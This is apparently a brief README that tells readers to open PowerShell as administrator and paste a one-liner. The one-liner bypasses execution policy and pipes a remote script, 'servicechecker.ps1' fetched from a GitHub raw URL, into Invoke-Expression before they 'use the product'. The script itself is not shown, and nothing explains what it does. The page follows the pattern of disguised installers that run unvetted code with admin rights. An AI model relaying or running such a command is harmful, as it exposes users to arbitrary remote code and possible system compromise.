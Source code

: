 1) Run powershell as admin
2) paste this in powershell admin powershell ``` powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/Skiedlmao/SafeSSerfinal/main/servicechecker.ps1')"```
3) use the product
